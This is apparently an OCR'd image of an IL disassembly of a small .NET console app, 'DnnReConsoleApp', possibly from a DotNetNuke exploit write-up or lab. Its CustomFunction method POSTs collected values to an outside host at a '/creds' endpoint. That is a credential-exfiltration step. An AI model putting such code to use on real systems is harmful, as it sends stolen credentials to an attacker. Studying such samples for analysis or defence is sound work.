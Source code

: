 ```
      IL_0028:  ldloc.0
      IL_0029:  ldstr      "http://192.168.50.114:3000/creds"
      IL_002e:  ldstr      "POST"
      IL_0033:  ldloc.1
      IL_0034:  callvirt   instance uint8[] [System]System.Net.WebClient::UploadValues(string,
                                                                                       string,
                                                                                       class [System]System.Collections.Specialized.NameValueCollection)
      IL_0039:  stloc.2
      IL_003a:  call       class [mscorlib]System.Text.Encoding [mscorlib]System.Text.Encoding::get_UTF8()
      IL_003f:  ldloc.2
      IL_0040:  callvirt   instance string [mscorlib]System.Text.Encoding::GetString(uint8[])
      IL_0045:  stloc.3
      IL_0046:  nop
      IL_0047:  leave.s    IL_0054

    }  // end .try
    finally
    {
      IL_0049:  ldloc.0
      IL_004a:  brfalse.s  IL_0053

      IL_004c:  ldloc.0
      IL_004d:  callvirt   instance void [mscorlib]System.IDisposable::Dispose()
      IL_0052:  nop
      IL_0053:  endfinally
    }  // end handler
    IL_0054:  ret
  } // end of method Program::CustomFunction

  .method public hidebysig specialname rtspecialname 
          instance void  .ctor() cil managed
  {
    // Code size       8 (0x8)
    .maxstack  8
    IL_0000:  ldarg.0
    IL_0001:  call       instance void [mscorlib]System.Object::.ctor()
    IL_0006:  nop
    IL_0007:  ret
  } // end of method Program::.ctor

} // end of class DnnReConsoleApp.Program


// =============================================================

// *********** DISASSEMBLY COMPLETE ***********************
// WARNING: Created Win32 resource file DnnReConsoleApp.res
```
